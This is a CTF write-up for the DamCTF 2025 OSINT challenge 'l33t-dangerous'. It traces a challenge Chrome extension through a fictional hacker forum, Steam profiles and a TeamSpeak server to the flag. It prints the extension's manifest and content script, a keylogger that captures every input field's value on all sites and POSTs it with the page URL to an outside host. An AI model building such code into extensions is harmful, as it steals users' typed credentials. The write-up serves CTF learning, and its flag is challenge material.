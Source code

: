 ```yaml
---
title: "l33t-dangerous"
description: "I was digging through my dad’s old CDs and found this. He used to work IT for the school district. Apparently, a middle schooler installed it on a teacher’s PC and somehow got into the grading system with it. No idea how it worked, but maybe you can figure it out." 
pubDate: 2025-05-12
ctf: "DamCTF 2025"
category: "osint"
author: "sealldev"
section: "CTFs"
image: "images/25-damctf/icon.png"
---
```


## What are we working with?

This challenge we start with a `boom.crx`. With some research the `.crx` file extension corresponds for a Chrome Extension. There are [CRX Extractors](https://crxextractor.com/) online, uploading the file we get a `boom.zip` containing the source code.

## Foothold

Inside is a `content-script.js` and a `manifest.json`.

```json
{
  "manifest_version": 3,
  "name": "Vine Boom Keyboard",
  "version": "1.3.3.7",
  "description": "Add some fun to your typing experience!",
  "content_scripts": [
    {
      "js": [
        "content-script.js"
      ],
      "matches": [
        "http://*/*", "https://*/*"
      ],
      "run_at": "document_start"
    }
  ]
}
```

```js
let boom = new Audio("data:audio/wav;base64,<B64 CONTENT>");

window.fetch = async (...args) => {
    // this stupid extension is useless why wont it work anymore?????
    // TODO: find out who invented CORS

    // whatever let's just simulate it for now
    await new Promise(resolve => setTimeout(resolve, 2000));
    return {
        ok: false,
        status: 418,
        statusText: "I'm a teapot",
        json: async () => ({ success: true }),
        text: async () => "it worked great",
    };
};

const targetNode = document.documentElement

const config = {attributes: true, childList: true, subtree: true};

const callback = (mutationList, observer) => {
    for (const mutation of mutationList) {
        if (mutation.type === "childList" && mutation.addedNodes.length > 0) {
            mutation.addedNodes.forEach(node => {
                if (node.nodeName === "INPUT") {
                    node.addEventListener("input", (e) => {
                        boom.currentTime = 0;
                        boom.play();

                        fetch("https://mwaas.el1t3.fun/payload", {
                            method: "POST",
                            headers: {
                                "Content-Type": "application/json",
                            },
                            body: JSON.stringify({
                                value: e.target.value,
                                url: window.location.href,
                                ele: e.target.name,
                                user: "NAVI"
                            }),
                        });
                    });
                }
            });
        }
    }
};

// Create an observer instance linked to the callback function
const observer = new MutationObserver(callback);

// Start observing the target node for configured mutations
observer.observe(targetNode, config);
```

The initially interesting part is the URL `mwaas.el1t3.fun` which seems to be used to exfiltrate data (before CORS).

Visiting the domain has a sample page with a login:
![mwaas.png](images/25-damctf/mwaas.png)

Selecting 'Login' redirects to a SimpleSAMLphp login page:
![ssp.png](images/25-damctf/ssp.png)

If I replicate a sample request to the `/payload` endpoint we get the following response:
`Upload functionality has been disabled after the disappearance of CacheTheStamp3de`

This login page is under the 2nd level domain `el1t3.fun`: `https://el1t3.fun/simplesaml/module.php/core/loginuserpass?...`

Visiting the domain with no path is a phpBB forum (ah the early 2000s UI):
![forumpage.png](images/25-damctf/forumpage.png)

## Characters

Exploring the threads we can see there are a few users:
- `NAVI` (which we can see is the user in the Chrome extension)
- `CacheTheStamp3de` (presumably disappeared)
- `[myg0t] konata` (Outside of the CTF context, `myg0t` is seemingly a group that would join servers and blatantly cheat)
- `LOIC`
- `pootis`

From reading the threads they all seem to be cheaters in Counter-Strike 1.6 and play gun-game.

## Threads

There are a few interesting things from these threads:

`CacheTheStamp3de` seems to be setting up a CS server, in that is a webserver:
![configcs.png](images/25-damctf/configcs.png)

Visiting the URL we have directory listing!
![csstrike.png](images/25-damctf/csstrike.png)

The `maps/` folder is pretty uninteresting (just maps) but the parent folder has an interesting image `sfz_motd.jpg`:
![sfz_motd.png](images/25-damctf/sfz_motd.png)

There is an IP address for a TeamSpeak server! But we don't know the password, good to keep in mind though.

There is another thread from `NAVI` showing proof they don't cheat (which is absolute cinema):
![navicheating.png](images/25-damctf/navicheating.png)

The video isn't attached but is a very entertaining video of poor CS gameplay and the best of the best Linkin Park in WINAMP, bundled with Notepad typing for speech and HyperCam 2. Lol.

The interesting part is when the Console is opened, and we can see some Steam IDs:
![steamidsnavi.png](images/25-damctf/steamidsnavi.png)

## Steam

The two IDs link to Steam profiles for `NAVI` and `pootis` and can be converted to profile URLs with https://steamid.io:
- `NAVI`: `STEAM_0:0:936738840` -> https://steamcommunity.com/profiles/76561199833743408
- `pootis`: `STEAM_0:0:937385953` -> https://steamcommunity.com/profiles/76561199835037634


`NAVI`'s profile has a comment from [CacheTheStamp3de](https://steamcommunity.com/profiles/76561199834323082) but their profile is private.

`pootis` is friends with `[myg0t] konata` (https://steamcommunity.com/profiles/76561199834257966):
![konatasteam.png](images/25-damctf/konatasteam.png)

They are in a group which seems to line up with the acronym seen on the TeamSpeak server and in `NAVI`'s 'i'm not hacking' video: **Skid Force Zero**.

They are also friends with `LOIC`, but their profile is private.

The group has comments from the members on the forum! But we can find something particularly interesting from `CacheTheStamp3de`:
![tspass.png](images/25-damctf/tspass.png)

We can now connect to the TeamSpeak server!

## TeamSpeak

Inside the server we have no permissions, but we can see a description for the 'Gungame 24/7' channel!

![tsdesc.png](images/25-damctf/tsdesc.png)


Now here I got quite stuck, I couldn't figure out what to do. I looked at registering on the forum and spotted this:
![regophrase.png](images/25-damctf/regophrase.png)

That phrase we need is from TeamSpeak! We can now register an account!

## Forum Access

I register an account `sealldev` and we can now see a new 'Hacking' board!

![hackingboard.png](images/25-damctf/hackingboard.png)

The 'steal creds from noobs' thread has the flag!

![flag1.png](images/25-damctf/flag1.png)

Flag: `dam{we_wer3_the_skids_all_al0ng}`

## Further Reading & Memes

I incline you to read the part 2 to this challenge [l33t-benign](/writeups/25-damctf-l33t-benign) as it ties directly into this and is a great web challenge.

After the CTF there were some shenanigans on the TeamSpeak server...

Bad Apple was made using usernames, and it's beautiful...

<video controls>
  <source src="/badapple.mp4" type="video/mp4" />
</video>








